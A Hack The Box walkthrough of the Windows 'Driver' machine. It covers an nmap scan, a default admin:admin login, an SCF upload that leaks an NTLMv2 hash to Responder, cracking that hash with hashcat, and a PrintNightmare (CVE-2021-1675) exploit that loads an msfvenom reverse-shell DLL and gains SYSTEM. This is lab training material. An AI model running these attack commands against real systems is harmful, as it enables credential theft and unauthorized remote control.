 ```yaml
---
layout: post
title: HTB Driver Writeup  
subtitle: Easy Box
thumbnail-img: /assets/img/driver.png
tags: [HTB]
---
```


![Explore](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/driver.png)


| Name | Driver |
| :------ |:--- |
| OS | Windows |
| RELEASE DATE | 02 Oct 2021 |
| DIFFICULTY | Easy |

# Port Scan
IP: 10.10.11.106
```
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Port 80
Looking at the page we are prompted with a login page for something called "MFP Firmware Update Center" I was able to guess the credentials `admin:admin`

On the page there was an upload section but none of my reverse shells worked. I learned about a "SCF File Attacks" https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/ 

I set up responder to listen 
`responder -wrf --lm -v -I tun0 `
l
Then I uploaded `@test.scf` file

@test.scf
```
[Shell]
Command=2
IconFile=\\KALIIP\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Responder picked up a username and hash
```
[SMB] NTLMv2 Client   : 10.10.11.106                                                                                  
[SMB] NTLMv2 Username : DRIVER\tony                                                                                   
[SMB] NTLMv2 Hash     : tony::DRIVER:b15c2e7f85d718a9:6E36D9DDD484EACD50000FB0BFDEF4BE:0101000000000000878E404A5DD0D7014A4697B1EBFEE0A900000000020000000000000000000000
```

Now we can crack this hash using hashcat, I used my host machine 
`PS C:\hashcat-6.2.3> ./hashcat.exe -m 5600 ..\hash.txt ..\rockyou.txt`

It cracks it and we get a login of `tony:liltony`

## Priv Esc

We can use our credentials to log in with evil-winrm
```
──(root💀kali)-[~/htb/driver]                                                                                        
└─# /opt/evil-winrm/evil-winrm.rb -i 10.10.11.106 -u tony -p liltony
```

Since this is a printer website and PrinterNightmare just came out lets try giving it a try I used Cube0x0's script https://github.com/cube0x0/CVE-2021-1675

Step 1 is to install Cube's version of impacket
```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Then lets get the exploit
`git clone https://github.com/cube0x0/CVE-2021-1675.git`

We will need to set up a SMB server on kali I used these configurations
`/etc/samba/smb.conf`

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[share]
    comment = Samba
    path = /srv/smb/
    guest ok = yes
    read only = no
    browsable = yes
    force user = nobody

```

Restart the service. (Make sure to turn off impacket or it will mess things up)
`service smbd restart`

Then we need to create a payload, copy it to /srv/smb/
```
┌──(root💀kali)-[/etc/samba]
└─# msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=YOURIP LPORT=4444 -f dll -o  /srv/smb/rev.dll
```

Now we can run our exploit and get a reverse shell as authority

Set up a listener
`nc -lvnp 4444`

Run the exploit
`./CVE-2021-1675.py 'DRIVER/tony:liltony@10.10.11.106' '\\KALIIP\share\rev.dll' `

And we get root!
```
┌──(root💀kali)-[~/htb]                                                                                               
└─# nc -lvnp 4444                                                                                                     
listening on [any] 4444 ...                                                                                           
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.106] 49436                                                          
Microsoft Windows [Version 10.0.10240]                                                                                
(c) 2015 Microsoft Corporation. All rights reserved.                                                                  
                                                                                                                      
C:\Windows\system32>                                                                                                  
                                                                                                                      
C:\Windows\system32>whoami                                                                                            
whoami                                                                                                                
nt authority\system 
```
